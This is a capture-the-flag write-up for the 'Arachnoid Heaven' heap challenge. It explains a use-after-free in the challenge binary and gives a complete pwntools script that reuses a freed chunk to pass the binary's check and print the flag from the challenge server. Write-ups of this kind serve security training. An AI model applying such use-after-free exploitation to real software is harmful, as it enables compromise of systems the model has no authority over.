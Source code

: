 # Arachnoid Heaven (Pwn) Writeup
Running the binary, we can quickly conclude that this is a heap challenge.

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_menu.png)

We get the classic menu with options to create, delete, view, and then ... obtain ?
Reading the pseudocode in ida, everything looks as expected,
with craft function using malloc to allocate chunks, delete freeing chunks 
and view letting us view the arachnoids and their corresponding **Code**, which is set to "Bad" uppon creation of the arachnoid, without the user having direct access to it., and since deleted arachnoids aren't
taken into account in the view function, we can even view those as well.

Reading through the **obtain** function, we see this:
![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_win_func.png)

It checks if the *Code* corresponding to a particular arachnoid is set to 'sp1d3y',
and if so, it prints out the flag. Basically a win function.

The user chooses the arachnoid index to obtain, and nothing is stopping us from
selecting a chunk that has been freed.
So there we have it: a **Use-After-Free vulnerability**.
We can use this to exploit the program.

```
#!/usr/bin/env python3
from pwn import *

def exploit():
  _bin = './arachnoid_heaven'
  elf = ELF(_bin)
  local = False

  if local:
    log.info('** Running exploit LOCALLY **')
    r = elf.process()
  else:
    log.info('** Running exploit against REMOTE server **')
    ip, port = '167.172.58.213', 31168   # CHANGE THIS
    r = remote(ip, port)
  
  r.sendlineafter(b'>', b'1') # craft arachnoid
  r.sendlineafter(b'Name:', b'koulis') # initial spider name

  r.sendlineafter(b'>', b'2') # delete arachnoid
  r.sendlineafter(b'Index:', b'0') # select 1st arachnoid

  r.sendlineafter(b'>', b'1') # craft arachnoid again
  # name it sp1d3y, so arachnoid's Code at index 0 is set to sp1d3y
  r.sendlineafter(b'Name:', b'sp1d3y')

  r.sendlineafter(b'>', b'4') # obtain arachnoid with index 0
  r.sendlineafter(b'Arachnoid:', b'0')

  r.recvline() # junk
  log.success('** PWNED **')
  flag = r.recvline().decode()
  log.success(f'flag : {flag}')


if __name__ == '__main__':
  exploit()
```

## And there we have it:

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_flag.png)
